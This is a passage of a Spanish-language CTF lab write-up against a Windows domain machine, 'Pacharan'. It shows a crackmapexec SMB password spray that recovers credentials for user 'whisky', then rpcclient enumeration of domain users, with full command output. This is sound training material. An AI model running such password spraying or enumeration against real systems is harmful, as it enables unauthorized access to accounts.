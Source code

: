 Probemos si alguno de los usuarios que tenemos tiene una contraseña que este dentro de esta lista.

Lo haremos con **crackmapexec**:
```bash
crackmapexec smb 192.168.69.69 -u users.txt -p ah.txt
SMB         192.168.69.69   445    WIN-VRU3GG3DPLJ  [*] Windows 10 / Server 2016 Build 14393 x64 (name:WIN-VRU3GG3DPLJ) (domain:PACHARAN.THL) (signing:True) (SMBv1:False)
SMB         192.168.69.69   445    WIN-VRU3GG3DPLJ  [-] PACHARAN.THL\chivas:Mamasoystreamer1! STATUS_LOGON_FAILURE 
SMB         192.168.69.69   445    WIN-VRU3GG3DPLJ  [-] PACHARAN.THL\chivas:Mamasoystreamer2@ STATUS_LOGON_FAILURE
...
...
...
SMB         192.168.69.69   445    WIN-VRU3GG3DPLJ  [+] PACHARAN.THL\whisky:***
```
Encontramos una contraseña que le pertenece al **usuario whisky**.

Podríamos probar si este usuario puede enumerar algo más de este servicio, pero te adelanto que no hay nada más.

Por lo que podemos continuar con otro servicio.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="RPC">Enumeración del Servicio RPC y Obteniendo Sesión con evil-winrm</h2>

Lo siguiente que podemos hacer, es ver si podemos enumerar el **servicio RPC**.

Esto lo haremos con el último usuario y contraseña que encontramos, utilizando la herramienta **rpcclient**:
```batch
rpcclient -U "whisky%*********" 192.168.69.69
rpcclient $> enumdomusers
user:[Administrador] rid:[0x1f4]
user:[Invitado] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[Orujo] rid:[0x44f]
user:[Ginebra] rid:[0x450]
user:[Whisky] rid:[0x452]
user:[Hendrick] rid:[0x453]
user:[Chivas Regal] rid:[0x454]
user:[Whisky2] rid:[0x457]
user:[JB] rid:[0x458]
user:[Chivas] rid:[0x459]
user:[beefeater] rid:[0x45a]
user:[CarlosV] rid:[0x45b]
user:[RedLabel] rid:[0x45c]
user:[Gordons] rid:[0x45d]
```
Bien, entramos y funcionan los comandos que usemos. Aquí ya usamos el comando **enumdomusers** para obtener todos los usuarios registrados.
